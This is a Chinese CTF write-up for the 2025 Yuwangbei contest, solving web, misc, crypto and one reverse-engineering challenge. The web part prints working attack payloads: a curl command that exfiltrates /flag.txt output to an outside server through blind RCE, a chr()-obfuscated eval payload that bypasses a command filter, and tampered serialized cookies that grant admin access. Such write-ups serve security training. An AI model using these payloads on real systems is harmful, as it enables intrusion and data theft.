# 2025御网杯 misc+crypto+web全解+re1-先知社区

> **来源**: https://xz.aliyun.com/news/17987  
> **文章ID**: 17987

---

# Web

## YWB\_Web\_xff

先看源码，需要修改ip进行登录



使用插件修改ip随意输入登录即可



## YWB\_Web\_未授权访问

先抓包，发现cookie存在问题，url解码看看，是序列化数据，最后一位是0，可以修改为1越权登录



格式如下

```
O:5:"Admin":2:{s:4:"name";s:5:"admin";s:7:"isAdmin";b:0;}
#修改后
O:5:"Admin":2:{s:4:"name";s:5:"guest";s:7:"isAdmin";b:1;}
```

成功拿到flag



## easyweb

首先代码审计，需要post传参cmd，并且回显被注释了，无回显的RCE

```
<?php

if(isset($_POST['cmd'])){
    @exec($_POST['cmd'],$res,$rc);  #$res存储结果，$rc存储状态码
    //echo $rc;
}else{
    echo "It works!";
}

show_source(__FILE__);
?>
#提示：flag在/flag.txt
```

使用curl进行数据外带，--data指定命令，需要使用公网服务器接收

```
cmd= ip 端口 --data "$(id)"
cmd=curl ip 端口 --data "$(ca\t /flag.txt)" 
```

## YWB\_Web\_命令执行过滤绕过

先看源码，存在很多过滤，并且传入的参数需要存在flag

```
 <?php
# flag in flag.php
include("flag.php");
if(isset($_GET['cmd'])){
    $cmd = $_GET['cmd'];   #preg_match函数匹配字符串
    if(!preg_match("/system|exec|highlight|show_source|include|passthru|echo|print_r|cat|head|tail|more|less/i",$cmd)){
        if(preg_match("/flag/i",$cmd)){
            eval($cmd);
        } else {
            die("HACK!!");
        }
    } else {
        die("HACK!!!");
    }
} else {
    highlight_file(__FILE__);
}
?>
```

在网页源码处发现注释

```
#源码的注释
$filename = "/tmp/flag.nisp";
$content = trim(file_get_contents($filename));
```

使用**readfile**函数进行读取，为什么读取flag.nisp，其实是试出来的，读flag.php没有结果

```
http://47.105.113.86:40002/?cmd=$_=chr(114).chr(101).chr(97).chr(100).chr(102).chr(105).chr(108).chr(101);$_(%27/tmp/flag.nisp%27);
```

对**payload**进行解释

* \*\*chr()：\*\*将ASCII码转换为字符串，使用点进行拼接，最终得到readfile
* \*\*$\_：\*\*将readfile字符串赋值给这个变量
* \*\*$\_(%27/tmp/flag.nisp%27)：\*\*实际上就是readfile('/tmp/flag.nisp')

## YWB\_Web\_反序列化

先看源码

```
<?php
function filter($name){
    $safe = array("flag", "php");
    return str_replace($safe, "hack", $name);
}

class mylogin {
    var $user;
    var $pass;

    function __construct($user, $pass) {
        $this->user = $user;
        $this->pass = $pass;
    }
}

if ($_POST['msg']) {
    $filtered_input = filter($_POST['msg']);    #post接收msg数据

    $a = unserialize($filtered_input);

    if ($a instanceof mylogin) {
        if ($a->pass === "myzS@11wawq") {  #pass需要覆盖
            exit();
        } else {
            $tis = "您是小自吧，差一点就成功了!";
        }
    } else {
        $tis = "您输入的信息可能去非洲才能找到哦!";
    }
}
?>
```

抓包发现存在参数点



构造出序列化数据绕过

```
O:7:"mylogin":2:{s:4:"user";s:5:"admin";s:4:"pass";s:11:"myzS@11wawq";}
#           变量数量          user=admin    pass=myzS@11wawq
```

# Misc

## ez\_xor

附件内容



给ai分析一下发现是xor



直接就拿到了flag，使用0x39异或

## 光隙中的寄生密钥

附件是一个图片


binwalk分离一下



一个加密文档



ARCHPR爆破一下



得到密文

```
5a6d78685a337368633073346145597a586e5a484e3231594d6e464566513d3d
```

先hex再base64



## 被折叠的显影图纸

一把梭哈



## ez\_picture

随波逐流图片，RGB存在问题



因为还有一个加密压缩包，尝试解密，得到一个图片，随波逐流看看，有一段base64加密



解密一下



## 套娃

是PK头，直接修改zip



还是一个txt文件，继续修改为zip文件



打开这个文件



得到flag



## easy\_misc

文件内容

```
77 49 66 77 83 107 104 68 78 70 81 50 90 50 104 87 98 87 74 76 82 69 90 53 99 88 100 50 86 87 116 81 84 70 86 78 86 122 86 70 98 48 85 61 
```

写了个脚本跑一下，将ascii吗转换为字符

```
import re
import base64
import string
from itertools import product

def decode_number_sequence(sequence, method):
    """根据指定方法解码数字序列"""
    try:
        if method == "ascii":
            # 直接转换为ASCII字符
            return ''.join(chr(int(num)) for num in sequence)
        elif method == "base64":
            # 先转换为ASCII，再尝试Base64解码
            ascii_str = ''.join(chr(int(num)) for num in sequence)
            # 确保Base64字符串长度是4的倍数
            padded_str = ascii_str + '=' * ((4 - len(ascii_str) % 4) % 4)
            return base64.b64decode(padded_str).decode('utf-8', errors='ignore')
        elif method.startswith("shift_"):
            # 凯撒移位密码
            shift = int(method.split('_')[1])
            ascii_str = ''.join(chr(int(num) + shift) for num in sequence)
            return ascii_str
        elif method.startswith("xor_"):
            # XOR加密，尝试不同密钥
            key = int(method.split('_')[1])
            xor_result = ''.join(chr(int(num) ^ key) for num in sequence)
            return xor_result
        else:
            return f"不支持的方法: {method}"
    except Exception as e:
        return f"解码失败 ({method}): {str(e)}"

def detect_encoding(text):
    """检测文本的可能编码"""
    results = {}
    
    # 检查是否是Base64
    base64_pattern = r'^[A-Za-z0-9+/]+={0,2}$'
    if re.match(base64_pattern, text.replace(' ', '')):
        try:
            decoded = base64.b64decode(text).decode('utf-8', errors='ignore')
            results['base64'] = decoded
        except:
            pass
    
    # 检查是否是十六进制
    hex_pattern = r'^[0-9A-Fa-f]+$'
    if re.match(hex_pattern, text.replace(' ', '')):
        try:
            decoded = bytes.fromhex(text).decode('utf-8', errors='ignore')
            results['hex'] = decoded
        except:
            pass
    
    return results

def is_meaningful(text):
    """判断文本是否包含有意义的内容"""
    # 计算可打印字符比例
    printable_ratio = sum(1 for c in text if c in string.printable) / len(text) if text else 0
    
    # 检查常见英文单词模式
    common_words = ['the', 'and', 'to', 'of', 'a', 'in', 'that', 'it']
    word_count = sum(1 for word in common_words if word.lower() in text.lower())
    
    return printable_ratio > 0.8 and word_count > 1

def main():
    # 输入数字序列
    sequence = "77 49 66 77 83 107 104 68 78 70 81 50 90 50 104 87 98 87 74 76 82 69 90 53 99 88 100 50 86 87 116 81 84 70 86 78 86 122 86 70 98 48 85 61"
    numbers = sequence.split()
    
    print("原始数字序列:", sequence)
    print("-" * 50)
    
    # 尝试直接转换为ASCII
    ascii_text = ''.join(chr(int(num)) for num in numbers)
    print(f"ASCII转换: {ascii_text}")
    
    # 检测可能的编码
    detected_encodings = detect_encoding(ascii_text)
    for encoding, result in detected_encodings.items():
        print(f"{encoding.upper()}解码: {result}")
    
    print("-" * 50)
    print("暴力破解可能的方法:")
    
    # 尝试常见的移位值
    for shift in range(-5, 6):
        if shift == 0:
            continue
        shifted_text = ''.join(chr(int(num) + shift) for num in numbers)
        print(f"移位 {shift:+}: {shifted_text[:50]}{'...' if len(shifted_text) > 50 else ''}")
        
        # 对移位结果再次检测编码
        shifted_encodings = detect_encoding(shifted_text)
        for encoding, result in shifted_encodings.items():
            if is_meaningful(result):
                print(f"  -> {encoding.upper()}解码: {result}")
    
    # 尝试常见的XOR密钥
    for key in range(1, 256):
        xor_text = ''.join(chr(int(num) ^ key) for num in numbers)
        if is_meaningful(xor_text):
            print(f"XOR密钥 {key}: {xor_text[:50]}{'...' if len(xor_text) > 50 else ''}")
    
    # 尝试组合方法（如先移位再Base64）
    print("-" * 50)
    print("尝试组合方法:")
    
    for shift in [-1, 1, 2]:  # 尝试几个常见的移位值
        shifted_text = ''.join(chr(int(num) + shift) for num in numbers)
        # 尝试将移位结果作为Base64解码
        try:
            padded = shifted_text + '=' * ((4 - len(shifted_text) % 4) % 4)
            decoded = base64.b64decode(padded).decode('utf-8', errors='ignore')
            if is_meaningful(decoded):
                print(f"移位{shift} + Base64: {decoded}")
        except:
            pass

if __name__ == "__main__":
    main()
```

得到一个base64解码的结果



先base58



然后凯撒



# Crypto

## easy-签到题

一个exe文件，读取hex



密码学工具箱梭哈



## cry\_rsa

一个rsa题目，先看看附件

```
在一次RSA密钥对生成中，假设p=473398607161，q=4511491，e=19
求解出d,然后把d的值加6为flag值。flag格式为flag{********}
```

ai写一个脚本，直接得到flag



## gift

附件内容



给ai分析一下



这里说的是披萨，根据题目描述，可能与饼有关，pie是饼，最终对这些食物尝试，成功的就是饼pie，结果是flag{zso}



## 草甸方阵的密语

根据题目提示，应该是栅栏+凯撒


随波逐流读取exe文件



如下

```
nb1t5Gic6oDH{79Zei3F}
```

栅栏解密7栏



然后凯撒解密



## ez\_base

翻译看一下，是垃圾邮件



在该网站：<https://www.spammimic.com/decode.cgi> ，处理一下


会得到一个字符串

```
ZmxhZ3tITkNURmxTV21NOVlSS3o0VEZ9
```

base64解密



## baby\_rsa

附件txt内容



exe的hex，是python的



修改后缀

```
from Crypto.Util.number import getPrime, isPrime, getRandomNBitInteger, bytes_to_long, long_to_bytes
from gmpy2 import powmod,invert,gcd
from flag import flag
import sympy

q = getPrime(1024)
p = sympy.nextprime(q)
N = p * q 
e = 0x10001
flag = flag.ljust(80)
m = bytes_to_long(flag)
c = pow(m,e,N)

print('N = ',N)
print('e = ',e)
print('c = ',c)

'''
N =  12194420073815392880989031611545296854145241675320130314821394843436947373331080911787176737202940676809674543138807024739454432089096794532016797246441325729856528664071322968428804098069997196490382286126389331179054971927655320978298979794245379000336635795490242027519669217784433367021578247340154647762800402140321022659272383087544476178802025951768015423972182045405466448431557625201012332239774962902750073900383993300146193300485117217319794356652729502100167668439007925004769118070105324664379141623816256895933959211381114172778535296409639317535751005960540737044457986793503218555306862743329296169569
e =  65537
c =  4504811333111877209539001665516391567038109992884271089537302226304395434343112574404626060854962818378560852067621253927330725244984869198505556722509058098660083054715146670767687120587049288861063202617507262871279819211231233198070574538845161629806932541832207041112786336441975087351873537350203469642198999219863581040927505152110051313011073115724502567261524181865883874517555848163026240201856207626237859665607255740790404039098444452158216907752375078054615802613066229766343714317550472079224694798552886759103668349270682843916307652213810947814618810706997339302734827571635179684652559512873381672063
'''
```

写个解密脚本

```
from Crypto.Util.number import long_to_bytes
from gmpy2 import powmod, invert, is_prime
import sympy

# 从题目中获取的公钥和密文
N = 12194420073815392880989031611545296854145241675320130314821394843436947373331080911787176737202940676809674543138807024739454432089096794532016797246441325729856528664071322968428804098069997196490382286126389331179054971927655320978298979794245379000336635795490242027519669217784433367021578247340154647762800402140321022659272383087544476178802025951768015423972182045405466448431557625201012332239774962902750073900383993300146193300485117217319794356652729502100167668439007925004769118070105324664379141623816256895933959211381114172778535296409639317535751005960540737044457986793503218555306862743329296169569
e = 65537
c = 4504811333111877209539001665516391567038109992884271089537302226304395434343112574404626060854962818378560852067621253927330725244984869198505556722509058098660083054715146670767687120587049288861063202617507262871279819211231233198070574538845161629806932541832207041112786336441975087351873537350203469642198999219863581040927505152110051313011073115724502567261524181865883874517555848163026240201856207626237859665607255740790404039098444452158216907752375078054615802613066229766343714317550472079224694798552886759103668349270682843916307652213810947814618810706997339302734827571635179684652559512873381672063

# 尝试分解N
def factor_N(N):
    # 由于题目提示p是q的下一个素数，我们可以尝试找到q
    # 首先计算sqrt(N)附近的值
    import math
    sqrt_n = int(math.isqrt(N))
    
    # 检查sqrt_n附近的数是否能分解N
    for i in range(1000):
        # 尝试向下搜索
        q_candidate = sqrt_n - i
        if q_candidate <= 0:
            continue
        if N % q_candidate == 0 and is_prime(q_candidate):
            return q_candidate, N // q_candidate
        
        # 尝试向上搜索
        q_candidate = sqrt_n + i
        if N % q_candidate == 0 and is_prime(q_candidate):
            return q_candidate, N // q_candidate
    
    return None, None

# 分解N
q, p = factor_N(N)
if q is None or p is None:
    print("无法分解N")
else:
    print(f"已找到p和q: p={p}, q={q}")
    
    # 计算私钥
    phi_N = (p - 1) * (q - 1)
    d = int(invert(e, phi_N))
    
    # 解密
    m = powmod(c, d, N)
    
    # 转换为字节
    flag_bytes = long_to_bytes(m)
    print(f"解密后的flag: {flag_bytes.decode('utf-8').strip()}")    
```

得到flag

```
flag{5c9c885c361541e0b261f58b61db8cec}
```

然后把4换成5交

# Re

## sign in

strings查看存在upx壳



先upx脱壳



ida打开脱壳后的文件，然后f5看源码



注意这个地方



存在rc4加密方法，rc4\_crypt是一个加密函数部分

```
unsigned __int64 __fastcall rc4_crypt(__int64 a1, __int64 a2, unsigned __int64 a3)
{
  unsigned __int64 result; // rax
  char v4; // [rsp+23h] [rbp-15h]
  int v5; // [rsp+24h] [rbp-14h]
  int v6; // [rsp+28h] [rbp-10h]
  unsigned __int64 i; // [rsp+30h] [rbp-8h]

  v5 = 0;
  v6 = 0;
  for ( i = 0LL; ; ++i )
  {
    result = i;
    if ( i >= a3 )
      break;
    v5 = (v5 + 1) % 256;
    v6 = (v6 + *(unsigned __int8 *)(v5 + a1)) % 256;
    v4 = *(_BYTE *)(v5 + a1);
    *(_BYTE *)(v5 + a1) = *(_BYTE *)(v6 + a1);
    *(_BYTE *)(a1 + v6) = v4;
    *(_BYTE *)(a2 + i) ^= *(_BYTE *)((unsigned __int8)(*(_BYTE *)(v5 + a1) + *(_BYTE *)(v6 + a1)) + a1);
  }
  return result;
}
```

callme，这里有加密逻辑密钥和字符串

```
unsigned __int64 callme()
{
  __int64 v1[4]; // [rsp+0h] [rbp-170h] BYREF
  int v2; // [rsp+20h] [rbp-150h]
  __int64 v3[3]; // [rsp+30h] [rbp-140h] BYREF
  _QWORD v4[3]; // [rsp+48h] [rbp-128h]
  __int64 v5[33]; // [rsp+60h] [rbp-110h] BYREF
  unsigned __int64 v6; // [rsp+168h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  v1[0] = 0xB8C6B89FC8B99FC8LL;
  v1[1] = 0xCFB7B0C51443528FLL;
  v1[2] = 0xB1A8C6B99BC7AC9CLL;
  v1[3] = 0xBDC68AB3C59299C5LL;
  v2 = -1499806587;
  v3[0] = 0xC61340F289B15A46LL;
  v3[1] = 0xB5DBE61F3084030DLL;
  v3[2] = 0xE62AD239D2D3845ALL;
  v4[0] = 0xA2312F9B2BC84A2DLL;
  *(_QWORD *)((char *)v4 + 7) = 0x2A91CA52A7A4A2LL;
  memset(v5, 0, 256);
  rc4_init(v5, v1, 36LL);
  rc4_crypt((__int64)v5, (__int64)v3, 0x27uLL);
  return v6 - __readfsqword(0x28u);
}
```

写个解密脚本

```
# 构造密钥
v1 = [
    0xB8C6B89FC8B99FC8,
    0xCFB7B0C51443528F,
    0xB1A8C6B99BC7AC9C,
    0xBDC68AB3C59299C5
]
v2 = -1499806587

key = b''
for num in v1:
    key += num.to_bytes(8, 'little')  # 小端转换
key += (v2 & 0xFFFFFFFF).to_bytes(4, 'little')  # 小端，4字节

# 构造密文
v3 = [
    0xC61340F289B15A46,
    0xB5DBE61F3084030D,
    0xE62AD239D2D3845A
]

cipher = b''
for num in v3:
    cipher += num.to_bytes(8, 'little')  # 小端转换

# 处理v4部分
v4_initial = 0xA2312F9B2BC84A2D
v4_bytes_initial = v4_initial.to_bytes(8, 'little')  # 前8字节
overwrite_value = 0x002A91CA52A7A4A2  # 高位补零到64位
overwrite_bytes = overwrite_value.to_bytes(8, 'little')

v4_bytearray = bytearray(v4_bytes_initial)
# 覆盖从索引7开始的8字节
for i in range(8):
    pos = 7 + i
    if pos < len(v4_bytearray):
        v4_bytearray[pos] = overwrite_bytes[i]
    else:
        v4_bytearray.append(overwrite_bytes[i])
v4_cipher = bytes(v4_bytearray[:15])  # 取前15字节

cipher += v4_cipher

# RC4解密
def rc4_init(key):
    S = list(range(256))
    j = 0
    for i in range(256):
        j = (j + S[i] + key[i % len(key)]) % 256
        S[i], S[j] = S[j], S[i]
    return S

def rc4_crypt(S, data):
    i = 0
    j = 0
    out = []
    for byte in data:
        i = (i + 1) % 256
        j = (j + S[i]) % 256
        S[i], S[j] = S[j], S[i]
        k = S[(S[i] + S[j]) % 256]
        out.append(byte ^ k)
    return bytes(out)

S = rc4_init(key)
plain = rc4_crypt(S, cipher)
print(plain.decode('latin-1'))
#flag{4c37ccb1539a946a21793f67962c6eeb}
```
